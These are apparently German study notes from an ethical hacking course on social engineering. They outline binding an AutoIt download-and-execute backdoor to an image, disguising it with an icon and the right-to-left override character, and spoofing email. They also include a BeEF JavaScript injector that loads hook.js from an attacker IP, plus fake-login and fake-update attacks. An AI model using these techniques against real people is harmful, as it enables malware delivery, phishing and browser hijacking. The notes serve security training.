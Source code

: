 # Social Engineering



## Maltego

Maltego – Information Gathering Tool

Freie Version hat eingeschränkten Funktionsumfang.

![image-20210827160905256](fig/image-20210827160905256.png)



## AutoIt Backdoor

Video 83

Backdoor mit beliebigem File kombinieren (Bild, PDF, ...)

`autoit-download-and-execute.txt` ist ein AutoIt Skript. 

Video 84 – AutoIt nicht Standard Kali, wird aber mit veil mitinstalliert. 

AutoIt Compiler :arrow_right: EXE File (+Icon)

Icon kann angegeben werden (z.B.: www.iconarchive.com). Wollen aber Preview des Images (in Icon umwandeln). Image to Ico googeln. 

![image-20210827162638446](fig/image-20210827162638446.png)



**Video 85** – Problem: es ist immer noch ein exe File. 

right to left override character (Unicode U+202D)

```sh
$ sudo apt install gnome-characters
```



## Email Spoofing

**Video 86** – Spoofing Emails - Setting Up an SMTP Server

Die Frage ist wie bekommt man den Trojaner auf das Ziel. Erste Möglichkeit durch eine Fake Email.

Freie WebSites gibt es, aber diese sind nicht geeignet da blacklistet wil viel Spam davon gesendet wird.

[SMTP Server](https://www.sendinblue.com/)

Video 87

sendmail verwenden:

![image-20210828101007587](fig/image-20210828101007587.png)



Video 88

Wenn ein webhosting zur Verfügung steht. (Frei stellen kein Email senden zur Verfügung)

Senden der Email mit PHP.



## BeEF Framework

Video 89 – Intro

Video 90 mittels Bettercap

`inject_beef.js` (YourIP ersetzen!):

```javascript
var imported = document.createElement('script');
imported.src = 'http://YourIP:3000/hook.js';
document.head.appendChild(imported);
```

Verwendet hstshijack

Video 91 – BeFF Commands

Video 92 – Fake Login

Video 93 – Fake update (backdoor)



## Detecting Trojans

Video 94 – Manuell

- div.
- Resource Monitor

Video 95 – Sandbox (hybrid-analysis.com)

